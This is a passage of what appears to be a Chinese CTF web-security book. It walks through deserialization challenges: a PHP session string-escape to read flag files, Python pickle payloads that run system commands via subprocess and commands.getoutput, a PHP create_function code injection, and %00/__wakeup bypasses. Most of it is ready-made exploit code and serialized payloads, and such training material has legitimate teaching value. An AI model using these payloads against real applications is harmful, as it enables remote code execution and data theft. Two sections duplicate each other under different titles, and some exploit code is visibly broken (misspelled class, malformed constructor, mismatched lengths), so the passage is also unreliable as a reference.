// a:3:{s:4:"user";s:1:"*";s:8:"function";s:2:"**";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

那么我们如果想要读取 `d0g3_f1ag.php` 文件的内容就需要令反序列化后的

```php
$_SESSION['img'] 为 d0g3_f1ag.php => ZDBnM19mMWFnLnBocA==
```

则初步反序列化内容

```php
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";
```

再看到 `$serialize_info = filter(serialize($_SESSION));`

先经过序列化，然后在进行 `filter` 函数，也就是过滤替换操作

这样的话就很有可能会造成序列化字符串逃逸的问题

首先默认的序列化数据是

```php
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:14:"highlight_file";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

这里可以控制的部分是 user 和 function 的内容

于是要利用过滤，用 user 吃掉后面的，加 `;` 闭合掉前面的键值 `function`

```
;s:8:"function";s:14:
```

之后在 function 的部分便可以写入数据控制后面的内容了

要吃掉的数据一共是 22 个，于是 user 的值为 phpphpphpphpphpphpflag

_SESSION[function] 的值为

```
;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"f";s:1:"a";}
```

这里要保证数组内的个数相等，所以要传入两个值，于是构造利用 payload

```php
_SESSION[user]=flagflagflagflagphpphp&_SESSION[function]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"f";s:1:"a";}
```

由于 `_SESSION` 数组有 3 个值，则需要在后面补充随便一个值即可

传入后 `$serialize_info` 的就为以下值

```php
a:3:{s:4:"user";s:22:"";s:8:"function";s:34:";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

随后再读取 `s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`

随后大括号闭合

后面的 `";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}` 值丢弃

读取到 `d0g3_f1ag.php` 内容为

```php
<?php
$flag = 'flag in /d0g3_fllllllag';
?>
```

再依法读取 `/d0g3_fllllllag` 即可

```php
_SESSION[user]=flagflagflagflagphpphp&_SESSION[function]=;s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"f";s:1:"a";}
```


<!-- Imported from D:\\Book\\Web\\Chapter12\12-5.md -->
### Python Pickle 反序列化之 subprocess


提示了源码在 /src 目录，直接访问


```python
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)
```

- `/ppicklee` 路由只支持 `POST` 方法。
- 从表单中获取 `data` 字段，并进行 Base64 解码。
- 通过 `sys.modules` 禁用 `os` 和 `sys` 模块。
- 检查反序列化数据中是否包含黑名单中的关键字，如果包含则返回错误信息。
- 如果数据通过检查，则尝试反序列化数据，成功返回 `success pickle`，失败返回 `fail pickle`

因为题目告诉了我们 flag 在 /flag下，且其 src 路由会读取文件 app.py 内容并输出

因为禁用了 os 和 sys 模块，所以我们使用另一个模块 **subprocess** 执行系统命令

```python
import pickle
import base64
import subprocess

# __reduce__ 方法: 这是 pickle 模块中的一个特殊方法，用于定义对象在序列化时的行为，它返回一个元组，包含一个可调用对象（通常是函数）及其参数
# subprocess.check_output: 这是一个函数，用于执行系统命令并返回输出
class A():
    def __reduce__(self):
        return subprocess.check_output, (["cp", "/flag", "/app/app.py"],)


a = A()
b = pickle.dumps(a)

print(base64.b64encode(b))
```


访问 src 目录拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter12\12-6.md -->
### Python Pickle 反序列化之 commands


打开网页给出提示


网页太多了，用脚本去找

```python
import requests

url="http://30b74212-bc6f-465c-8b60-d9aeaa215b75.node4.buuoj.cn:81/shop?page="
 
for i in range(0,2000):
    print(i)
    r=requests.get( url + str(i) )
    if 'lv6.png' in r.text:
        print (i)
        break
```


找到后购买钱不够，修改前端代码的折扣


购买后显示只能 admin 访问


查看 Cookies 发现有 JWT


使用工具破解密钥


去在线网站生成 admin 的 JWT


替换掉刷新网页


点击后没反应，查看源代码有压缩文件


下载后拿到源码

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib
 
 
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')
 
    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

become 参数存在 Pickle 反序列化漏洞

```python
import pickle
import urllib
import commands

# commands.getoutput 是一个函数，用于执行系统命令并返回输出
class Try(object):
    def __reduce__(self):
        return (commands.getoutput, ('cat /flag.txt',))


a = Try()
print(urllib.quote(pickle.dumps(a)))
```

替换为脚本生成的序列化代码拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter12\12-7.md -->
### PHP Create_function() 反序列化


打开网页给出了源码

```php
<?php

if (isset($_GET['p'])) {
    $p = unserialize($_GET['p']);
}
show_source("index.php");

class Noteasy
{
    private $a;
    private $b;

    // 构造函数，会在类的对象在创建时自动调用
    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
        $this->check($a.$b);
        eval($a.$b);
    }


    // 析构函数，在对象销毁时自动调用
    public function __destruct()
    {
        $a = (string)$this->a;
        $b = (string)$this->b;
        $this->check($a.$b);
        $a("", $b);
    }


    private function check($str)
    {
        if (preg_match_all("(ls|find|cat|grep|head|tail|echo)", $str) > 0) die("You are a hacker, get out");
    }


    public function setAB($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
```

首先，反序列化不调用构造函数

因为反序列化时通过读取对象的字节流来恢复对象的状态，而不是通过调用对象的构造函数来创建对象

所以直接来看析构函数

```php
public function __destruct()
{
    // 将属性 $a 转换为字符串
    $a = (string)$this->a;
    
    // 将属性 $b 转换为字符串
    $b = (string)$this->b;
    
    // 调用 check 方法，传入 $a 和 $b 连接后的字符串
    $this->check($a.$b);
    
    // 重点代码
    // 将 $a 作为函数调用，第一个参数为空字符串，第二个参数为 $b
    $a("", $b);
}
```

但是空的的函数不能执行，所以我们要构造一个

这里要利用 `Create_function()` 函数

```php
$func = create_function('$a, $b', 'return $a + $b;');
echo $func(2, 3); // 输出 5
```

`create_function` 实际上会在内部执行以下操作：

1. 生成一个唯一的函数名(如 `__lambda_func`)
2. 用给定的参数和代码体创建一个新函数
3. 返回这个函数名以便后续调用

构造序列化代码

```php
<?php
 
Class Noteast{
 
Private $a;
 
Private $b;
 
Public function_construct($a,$b){
 
$this->a=$a;
 
$this->b=$b;
 
}
 
$object=new Noteasy("create_function",';}highlight_file("/flag");/*;');
 
Echo serialize($object);
 
}
```

这样相当于

```php
create_function('', ';}highlight_file("/flag");/*;')
```

实际创建的代码为

```php
function __lambda_func() {
    ;}highlight_file("/flag");/*;
}
```

得到

```php
O:7:"Noteasy":2:{s:10:"Noteasya";s:15:"create_function";s:10:"Noteasyb";s:21:';}highlight_file("/flag");/*;";}
```

需要注意因为是 `private` 属性，所以不能直接使用

应该为 `\00类名\00`

```php
O:7:"Noteasy":2:{s:10:"\00Noteasy\00a";s:15:"create_function";s:10:"\00Noteasy\00b";s:29:";}highlight_file("/flag");/*";}
```


<!-- Imported from D:\\Book\\Web\\Chapter12\12-8.md -->
### PHP %00 绕过 Private


打开网页给出了备份提示


扫后台发现 ZIP 文件


下载下来打开 index.php 拿到源码（flag.php 是假的）


看到了反序列化，接下来去看 class.php

```
__wakeup 魔术方法：当对象反序列化时，会触发该方法终止脚本执行

__destruct 析构函数：当对象销毁时调用
```

```php
<?php
include 'flag.php';
 
 
error_reporting(0);
 
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
 
    function __wakeup(){
        $this->username = 'guest';
    }
 
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
 
             
        }
    }
}
?>
```

我们需要传入 username = admin，password = 100，于是构造反序列化

```php
<?php
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));
 
?>
```

还没有结束，因为类的两个属性声明为 private，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见

所以要在此基础上补上 `%00`

```php
%00Name%00

%00Name%00
```

最后是绕过 __wakeup()

当反序列化中对象属性的个数和真实的个数不等时，__wakeup() 就会被绕过，所以修改使其不相等即可

```php
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```


<!-- Imported from D:\\Book\\Web\\Chapter12\12-9.md -->
### PHP \00 绕过 Private


打开网页给出了源码

```php
<?php

if (isset($_GET['p'])) {
    $p = unserialize($_GET['p']);
}
show_source("index.php");

class Noteasy
{
    private $a;
    private $b;

    // 构造函数，会在类的对象在创建时自动调用
    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
        $this->check($a.$b);
        eval($a.$b);
    }


    // 析构函数，在对象销毁时自动调用
    public function __destruct()
    {
        $a = (string)$this->a;
        $b = (string)$this->b;
        $this->check($a.$b);
        $a("", $b);
    }


    private function check($str)
    {
        if (preg_match_all("(ls|find|cat|grep|head|tail|echo)", $str) > 0) die("You are a hacker, get out");
    }


    public function setAB($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
```

首先，反序列化不调用构造函数

因为反序列化时通过读取对象的字节流来恢复对象的状态，而不是通过调用对象的构造函数来创建对象

所以直接来看析构函数

```php
public function __destruct()
{
    // 将属性 $a 转换为字符串
    $a = (string)$this->a;
    
    // 将属性 $b 转换为字符串
    $b = (string)$this->b;
    
    // 调用 check 方法，传入 $a 和 $b 连接后的字符串
    $this->check($a.$b);
    
    // 重点代码
    // 将 $a 作为函数调用，第一个参数为空字符串，第二个参数为 $b
    $a("", $b);
}
```

但是空的的函数不能执行，所以我们要构造一个

这里要利用 `Create_function()` 函数

```php
$func = create_function('$a, $b', 'return $a + $b;');
echo $func(2, 3); // 输出 5
```

`create_function` 实际上会在内部执行以下操作：

1. 生成一个唯一的函数名(如 `__lambda_func`)
2. 用给定的参数和代码体创建一个新函数
3. 返回这个函数名以便后续调用

构造序列化代码

```php
<?php
 
Class Noteast{
 
Private $a;
 
Private $b;
 
Public function_construct($a,$b){
 
$this->a=$a;
 
$this->b=$b;
 
}
 
$object=new Noteasy("create_function",';}highlight_file("/flag");/*;');
 
Echo serialize($object);
 
}
```

这样相当于

```php
create_function('', ';}highlight_file("/flag");/*;')
```

实际创建的代码为

```php
function __lambda_func() {
    ;}highlight_file("/flag");/*;
}
```

得到

```php
O:7:"Noteasy":2:{s:10:"Noteasya";s:15:"create_function";s:10:"Noteasyb";s:21:';}highlight_file("/flag");/*;";}
```

需要注意因为是 `private` 属性，所以不能直接使用

应该为 `\00类名\00`

```php
O:7:"Noteasy":2:{s:10:"\00Noteasy\00a";s:15:"create_function";s:10:"\00Noteasy\00b";s:29:";}highlight_file("/flag");/*";}
```


